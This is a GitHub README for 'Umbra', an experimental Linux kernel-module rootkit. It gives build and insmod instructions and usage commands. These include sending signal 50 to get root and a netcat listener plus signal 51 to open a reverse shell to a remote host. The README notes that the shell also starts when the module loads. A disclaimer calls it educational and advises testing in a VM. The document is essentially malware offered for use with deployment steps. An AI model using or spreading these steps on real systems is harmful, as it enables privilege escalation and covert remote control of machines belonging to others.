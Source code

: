 ![GitHub release (latest by date)](https://img.shields.io/github/v/release/marsan27/Umbra)
![Maintainability](https://img.shields.io/static/v1?label=maintainability&message=C&color=green)
![GitHub code size in bytes](https://img.shields.io/github/languages/code-size/marsan27/Umbra)
![GitHub last commit](https://img.shields.io/github/last-commit/marsan27/Umbra)

# Umbra

Umbra (/ˈʌmbrə/) is an experimental LKM rootkit for kernels 4.x and 5.x (up to 5.7) which can be used to spawn a netcat reverse shells to remote hosts and more.

The rootkit is still under development, although the features listed below are already fully operational.

Note: This rootkit has been developed and tested using kernel 5.4.0 and Ubuntu 18.04.

## Features
* Privilege scalation by sending signal 50
* Start netcat reverse shell on module load.
* Spawn netcat reverse shell to chosen remote host by sending signal 51.

More functionalities will come in later updates.

## Disclaimer
This rookit is **purely for educational purposes**. I am not responsible for any damage resulting from its unintended use.

Also bear in mind that Umbra does not incorporate any hiding or protection mechanisms yet.

**IMPORTANT:** If you are going to test this rootkit in your own machine, I *strongly recommend* to use a VM. 

## Build and install
Remember that you should have a 4.x or 5.x kernel available.
1. Download your kernel header files
```sh
apt install linux-headers-$(uname -r)
```
2.Configure your include path to cover the kernel header directory (usually under /usr/src). If you are using vscode, you can check ```.vscode/c_cpp_properties.json``` for an example on which directories to include.

3. Clone the project
```
git clone https://github.com/marsan27/Umbra.git
cd Umbra
```
4. Build Umbra
```
make
```
1. Load Umbra in the kernel
```
sudo insmod ./umbra.ko
```

## Unloading Umbra
```
sudo rmmod umbra
```

## Usage
### Change current user privileges to root
* Send signal 50 to any PID.
```
kill -50 1
```

### Start reverse netcat shell to IP:PORT
* Set your desired IP and port in CONFIG.H before building the rootkit. By default 127.0.0.1:5888

* Start listening at the remote host.
```
nc -lvp 5888
```
* Send signal 51 to any PID. Umbra will catch it and start the shell.
```
kill -51 1
```
<img src="images/kill51screenshot.png" width = 800/>

Note: Umbra also tries to start the reverse shell on load.


## References
The development of this rootkit involved a substantial amount of research about LKMs and rootkit techniques. The following is an incomplete list of the resources I used:
How to create LKMs:
* https://tldp.org/LDP/lkmpg/2.6/html/lkmpg.html

Linux syscall reference:
* https://syscalls64.paolostivanin.com/

Some rootkit references:
* https://xcellerator.github.io/posts/
* https://web.archive.org/web/20160620231623/http://big-daddy.fr/repository/Documentation/Hacking/Security/Malware/Rootkits/writing-rootkit.txt
* https://github.com/f0rb1dd3n/Reptile

## License
This project is licensed under the GPLv2 license.